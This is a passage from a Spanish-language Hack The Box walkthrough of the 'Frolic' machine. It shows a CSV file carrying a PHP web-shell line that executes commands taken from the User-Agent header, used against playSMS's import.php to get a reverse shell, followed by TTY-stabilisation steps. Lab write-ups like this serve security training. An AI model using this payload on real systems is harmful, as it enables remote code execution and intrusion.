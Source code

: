 con `searchsploit` pude dar con algo relacionado a `playSMS`

![](htb-writeup-frolic/exploit1.png)

y nos quedamos con `'import.php' Remote Code Execution`, echemos un vistaso que nos dice la `Poc`

![](htb-writeup-frolic/exploit2.png)

en resumen , vamos a poder cargar un archivo `.csv` que nos permite inyectar código a través del campo `User-Agent`.
creamos el archivo con la extensió y modificamos algo, que la sintaxis no está correctamente, eso lo ponemos ver en el
mismo archivo `Poc`

```bash
Name,Mobile,Email,Group code,Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>,22,,,
```
{: .nolineno}

ahora solo queda subir el archivo, interceptar el tráfico y modificar el `User-Agent`, es lo que nos va permitir ejecutar comandos

![](htb-writeup-frolic/exploit3.png)

y estando en escucha por el puerto que le pasamos

![](htb-writeup-frolic/exploit4.png)


## intrusión


obtenemos la reverse shell

![](htb-writeup-frolic/exploit5.png)


ahora queda hacer el tratamiento de la tty para esta más cómodos.
tenemos que convertir esto a una consola completamente interactiva                                                             
                                                                                                                               
- script /dev/null -c bash                                                                                                     
- ctrl + z                                                                                                                     
- stty raw -echo;fg                                                                                                            
- reset xterm                                                                                                                  
- export TERM=xterm                                                                                                            
- export SHELL=bash                                                                                                            
- stty rows 27 columns 127                                                                                                     
	+ esto solo aplica para las dimensiones de mi pantalla


### flag usuario ayush

listo el directorio `/home` para hacerme una idea de los usuarios en el sistema, y si no me llena el alma, reviso el `/etc/passwd`
